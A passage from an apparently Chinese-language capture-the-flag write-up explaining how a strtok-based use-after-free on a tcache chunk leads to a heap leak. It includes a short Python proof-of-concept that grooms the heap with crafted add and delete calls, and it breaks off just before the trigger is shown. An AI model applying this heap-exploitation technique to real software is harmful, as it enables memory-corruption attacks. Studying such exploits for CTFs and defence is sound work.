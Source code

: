 >
>    From the above description, it follows that a sequence of two or more contiguous delimiter bytes in the parsed string is considered to be a single delimiter, and that delimiter bytes at the start or  end  of  the string  are ignored.  Put another way: the tokens returned by strtok() are always nonempty strings.  Thus, for example, given the string "aaa;;bbb,", successive calls to strtok() that specify the delimiter string ";," would return the strings "aaa" and "bbb", and then a null pointer.

{{< /collapse >}}

当最后一个`\n`切割完毕后，`strtok`将结尾的`\n`替换为`\0`，将`save_ptr`指向字符串结尾`\0`的位置。如果此时我们想UAF继续切分字符串，则必须篡改该处的内存使之不为`\0`。

# 解题过程

## leak

要想利用UAF，且程序使不崩溃，我们需要：

1. 将原字符串结尾的`\0`覆盖为其他字节
2. 使覆盖后的字符串能被后面调用的两个`strtok`正常切割

除了tcache chunk外，其他类型chunk释放后仅会向chunk前0x10~0x30的位置写入指针，继续解析字符串时必定会被`\0`截断，所以无法利用。

tcache chunk释放后，chunk+0x18的位置会被写入tcache key，如果**字符串结束的位置刚好在tcache key的范围内**，释放后`\0`不仅会被覆盖，而且继续解析时不会被`\0`截断，由于`strdup`不会清空原来堆块上的残留数据，假如我们**提前在chunk+0x20开始的位置布置好满足条件的字符串**，即可使两个`strtok`正常切割。

**所以，0x20 tcache chunk满足利用条件**，PoC如下：

```python
    login('a'*31, b'b'*8)

    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #1

    gap = ord(":")^ord("b")
    add(b'a'*1, b'b'*8, b'c'*5+p8(gap)+b'c'+p8(gap)+b'c'*3) #2 提前布置好两个异或后的':'
    add(b'a'*6, b'b'*8, b'c'*0x6) #3
    
    dele(2)
    add(b'a'*1, b'b'*8, b'c') #4
    dele(4)
    add(b'a'*6, b'b'*8, b'1'*0x1ffffd0) #5 fake
```

触发UAF之前：

